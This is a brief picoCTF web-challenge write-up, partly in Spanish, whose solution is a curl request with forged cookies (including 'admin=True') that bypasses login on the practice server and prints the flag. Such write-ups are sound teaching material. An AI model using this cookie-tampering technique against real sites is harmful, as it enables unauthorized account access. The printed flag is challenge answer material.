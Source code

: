 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or [http://jupiter.challenges.picoctf.org:44573](http://jupiter.challenges.picoctf.org:44573/)
## Solución
```
curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H  'Cookie: password=12345; username=Pepe; admin=True' | grep picoCTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--   0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:-- 100  1312  100  1312    0     0   4774      0 --:--:-- --:--:-- --:--:--  4770
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc
```
## Notas adicionales
[https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods]
## Referencias